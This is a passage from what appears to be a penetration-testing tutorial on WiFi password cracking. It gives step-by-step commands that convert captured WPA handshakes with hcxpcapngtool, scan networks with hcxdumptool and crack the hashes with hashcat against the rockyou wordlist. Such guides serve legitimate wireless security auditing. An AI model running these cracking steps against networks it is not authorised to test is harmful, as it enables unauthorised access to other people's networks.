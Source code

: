 2. **Convert the captured file with the tool**

* hcxpcapngtool ‐o hash.hc22000 ‐E essidlist dumpfile.pcapng

> ‐hash.hc22000 is the converted file
>
> Essid list will contain the list of SSIDs
>
> Dumpfile.pcapng is the source file

3. Convert the captured file with the tool

* `hcxpcapngtool ‐o hash.hc22000 ‐E essidlist dumpfile.pcapng`
* Check the essidlist file for name of wifi networks
* `nano essidlist`

> Sometimes wifi networks leak passwords and here we can see if there is some leaked password without even cracking something

* Check the BSSID of our network
* sudo hcxdumptool ‐i wlan0 ‐‐do\_rcascan

4. **Delete the excessive information and keep only the target network handshakes**

* `nano hash.hc22000`
* Now, we have our converted file hash.hc22000. Just copy it from Vmware machine to your main Windows Machine

### Convert Handshakes captured through Aircrack suite

1. **Copy the .cap file from VB machine to Windows machine**
2. **Use the following official website from hashcat developers to convert the file to proper format(.hc2200)**: [https://hashcat.net/cap2hashcat/](https://hashcat.net/cap2hashcat/)
3. **Download the converted file**

### Cracking Handshakes with Hashcat

{% content-ref url="../tools/hashcat.md" %}
[hashcat.md](../tools/hashcat.md)
{% endcontent-ref %}

### Cracking Handshakes on Windows with Powerful graphics card

1. **Install the Hashcat from official website** https://hashcat.net/hashcat/
2. **Copy the handshake file to hashcat directory**
3. **Download and extract the rockyou dictionary in hashcat folder** https://github.com/brannondorsey/naive‐hashcat/releases/download/data/rockyou.txt
4. **Open the Power shell and then use the command to crack the handshake**

* `.\Hashcat.exe ‐m 22000 ‐a 0 ‐o cracked.txt hash.hc22000 rockyou.txt`

> 22000 tells the hashcat that its wifi password to be cracked
>
> Cracked.txt will store cracked passwords
>
> Hash.hc22000 is the source file
>
> Rockyou.txt is the dictionary file
